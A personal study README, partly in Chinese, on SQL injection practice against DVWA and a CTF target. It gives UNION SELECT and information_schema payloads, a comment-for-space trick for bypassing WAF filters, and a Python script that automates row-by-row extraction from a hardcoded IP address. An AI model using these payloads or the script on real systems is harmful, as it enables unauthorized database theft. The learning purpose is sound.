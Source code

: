 # SQLi-sum-up
这个仓库是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语 来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！ 另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面 ```
# SQL injection（注入）
```
本篇文章是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语
来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！
另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面
```
## Practice

### DVWA SQLi
> http://43.247.91.228:81/login.php
1. Vulnerability: SQL Injection
- low 
	omited
- middle
	1. get the number of columns, whose payload is:
		> 1 order by 2--
	2. find out  by using UNION SELECT 1,2,3,4...n, 
		and  the payload_id is:
		> 1 UNION SELECT 1,2&Submit=Submit#
		
	3. Fetch data, considering the structure of a classic Mysql_DB:
	
	![sql结构](SQL_STRUCTUTRE.png)
	
	Basic form of payloads should be like 
	
	> ?id=1/**/union/**/SELECT/**/table_schema,table_name/**/FROM/**/information_schema.tables/**/limit/**/2,3
	
	
	by using the tricks below you can gradually form the entire TABLE_NAME and COLUMN_NAME
	
	*** Addtionally, i should emphasize that '/**/' is a sort of replacements of space(' '), which sometimes is able to bypass WAF ***
	
	4. In the 3rd part, it's quite dull and of *LOW efficiency* to fetch data little by little, so i decide to make it AUTOMATIC:
- Python:
>EXAMPLE SITE-CTF:http://47.96.138.65:45787/?id=1 
>before using, the injection param should be put at the TAIL of url, which is 
>from 
> * ?id=1%20UNION%20SELECT%201,user()&Submit=Submit# 
> to  
> * ?IDSubmit=Submit&id=1%20UNION%20SELECT%201,user() 

```
# coding:utf-8
# author:UncleHenry
import requests
from bs4 import BeautifulSoup
import regex as re


def getContent(xurl):
	'''
	@IN:SOUP soup
	@OUT:STR extracted content

	
	#print('soup:'+str(soup))
	'''
	HEADER = {
		'Connection': 'keep-alive',
		'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
	}
	SQLI_user_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),user()'
	if xurl != None:
		SQLI_user_URL = xurl
		
	session = requests.Session()
	s0 = session.get(SQLI_user_URL)
	soup = BeautifulSoup(s0.content, 'html.parser')
	#可以用print(soup.find_all('center')[len(soup.find_all('center'))-1]) #找到最后一个center，比较特殊
	#print(soup.prettify)
	#用正则，取出最后一个<center>标签中的内容
	m = re.findall(r'<center>(.+?)</center>',str(soup))
	return(m[len(m)-1])
	
	
	
def fuzz_Url(xbasic_url):
	'''
	@IN: str BASIC_URL, like 
	'?id=1-1/**/union/**/select/**/database(),1,version(),'
	@OUT: str FUZZING_URL, like	
	'union/**/SELECT/**/table_schema/**/FROM/**/information_schema.tables'
	return a completed fuzzing URL
	'''
	#fuzz_ITEM = ['database','@@version','user()']
	fuzz_ITEM = ['table_schema']
	fuzz_RANGE = ['information_schema.tables','information_schema.columns']
	return(xbasic_url+' '+fuzz_ITEM[0]+' '+'from'+' '+fuzz_RANGE[0])




def limit_to_fetch_all(n):
	'''
	递归调用
	@IN：int n: STARTS AT 0
	
	@OUT:str: limit n,n+1 --
	'''
	limit = ' limit '+str(n)+','+str(n+1)+' --'
	return(limit)
	#return(' limit '+str(n)+','+str(n+1)+' --')
	# limit n,n+1
	
	
def trim(xstr):
	'''
	bypass waf
	could be DIY
	'''
	return(xstr.replace(" ", "/**/"))



if __name__ == "__main__":

	BASIC_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),'
	#print(getContent(visitSite()))
	print("----OK, let's start----")
	for i in range(20):
		xurl = trim(fuzz_Url(BASIC_URL)+limit_to_fetch_all(i))
		try:
			res = getContent(xurl)
			print(res)
		
		except:
			print("----That's all----")
			break
			


	
	
	



```
效果如下：
![](auto_fuzzing.png)


- 编程心得
	1. python regex
		- findall(r[pattern],String) //extract from string
		- match(r[pattern],String) //match string
	

	
## Reasons of sqli
1. user-provided params which directly connect to db *WITHOUT* filter
	> $_GET
	> $_POST
	> $_REQUEST	
	
2. $result should be seen outside
	> echo($query)
	> echo...
